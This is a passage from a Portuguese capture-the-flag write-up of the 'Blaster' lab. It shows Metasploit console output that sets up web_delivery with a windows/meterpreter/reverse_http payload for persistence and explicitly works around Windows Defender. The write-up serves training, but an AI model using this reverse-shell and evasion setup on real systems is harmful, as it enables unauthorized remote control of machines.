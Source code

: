 ![alt text](/assets/img/blaster/blaster5.png)

### Flag root obtida
`Esqueci da print XD`

### Metasploit

Criando persistência com metasploit.

Levando em conta que o windows defender está ativo, vai bloquear a execução de payloads .exe do metasploit.
Abri o msconsole e setei o exploit, o payload e o target que é powershell

```shell
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > 
msf6 exploit(multi/script/web_delivery) > show targets 

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Python
    1   PHP
    2   PSH
    3   Regsvr32
    4   pubprn
    5   SyncAppvPublishingServer
```
